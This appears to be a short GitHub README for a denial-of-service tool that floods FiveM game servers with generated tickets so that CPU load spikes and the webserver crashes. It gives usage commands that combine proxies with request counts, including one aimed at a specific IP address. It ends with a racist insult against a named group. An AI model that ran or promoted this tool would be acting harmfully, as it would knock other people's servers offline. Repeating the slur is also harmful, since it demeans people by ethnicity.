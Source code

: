 <h2>FiveM Ticket Creation protocol and Flooder</h2>

<h3>Coded by aqu (dc: @2aqu)</h3>

<h4>This script can generate FiveM tickets that when flooding causes high CPU load and makes the webserver crash</h4>

<h3>usage</h3><br>

```sh
node proccess.js http://SERVER:30120/client proxy_file duration request_per_proxy
node proccess.js http://216.151.164.20:30120/client http.txt 120 64
```

## Released because skiddo 3NATC (arabian monkey hill) are using it without my consent
